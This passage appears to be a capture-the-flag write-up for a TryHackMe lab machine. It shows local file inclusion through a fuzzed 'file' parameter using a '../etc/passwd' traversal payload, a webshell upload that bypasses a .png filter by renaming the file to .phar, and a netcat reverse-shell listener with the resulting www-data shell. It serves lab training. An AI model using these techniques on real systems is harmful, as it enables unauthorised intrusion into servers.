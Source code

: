 I checked this `/file1010111/index.php` directory that asks for the password and I entered the password as `easytohack` to access the site . 
![Image](Pasted%20image%2020240221002005.png)
_Dashboard of /file1010111/ directory_

After submitting the password I got this page which states me to perform parameter fuzzing so I did with the help of burpsuite and used the value as `../../../../../etc/passwd` so that I could capture some output ->
![Image](Pasted%20image%2020240221001932.png)
I started fuzzing for the parameters and got this ->
![Image](Pasted%20image%2020240221000720.png)
_file parameter name is the one_
So I found LFI here lets see some other files 🤔

I also noticed this directory while got from enumeration process `/upload-cv00101011/index.php` lets see ->
![Image](Pasted%20image%2020240221115040.png)
This site is asking for password which is a username for this machine whose username starts with z so I checked the output of <span style="color:#ffff00">/etc/passwd</span> and entered it and got inside this page 🔽 
![Image](Pasted%20image%2020240221115320.png)
_File Upload page_
Now I have to upload a file but that file should be `.png` format to make it upload otherwise the site does not response so.
![Image](Pasted%20image%2020240221120208.png)
_Captured the request with burpsuite Tool_
I uploaded the webshell file by changing it to `.png` in extension when I capture the request in burpsuite I changed the file name to `.phar` then and forwarded the request and the file uploaded successfully ->

![Image](Pasted%20image%2020240221001907.png)
_Webshell file uploaded successfully 😉_
Now I have to check the uploaded forldername for that the webpage states that I should check the source code and I did ->
![Image](Pasted%20image%2020240221001848.png)
_/upload_thm_1001/ folder_
So lets access our Web shell now 🔻
![Image](Pasted%20image%2020240221001803.png)
_Webshell.php file that works with webshell.phar also_
got the proper shell ->
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Expose]
└─$ rlwrap nc -lvnp 4444                         
listening on [any] 4444 ...
connect to [10.14.72.139] from (UNKNOWN) [10.10.2.163] 41642
bash: cannot set terminal process group (779): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-2-163:/var/www/html/upload-cv00101011/upload_th
www-data@ip-10-10-2-163:/var/www/html/upload-cv00101011/upload_thm_1001$ python3 -c 'import pty;pty.spawn("/bin/bash")'

<001$ python3 -c 'import pty;pty.spawn("/bin/bash")'                     
www-data@ip-10-10-2-163:/var/www/html/upload-cv00101011/upload_thm_1001$
```
{: .nolineno}
{: .nolineno}
I enumerated further and found this 👉
```bash
www-data@ip-10-10-230-123:/home$ ls -al
ls -al
```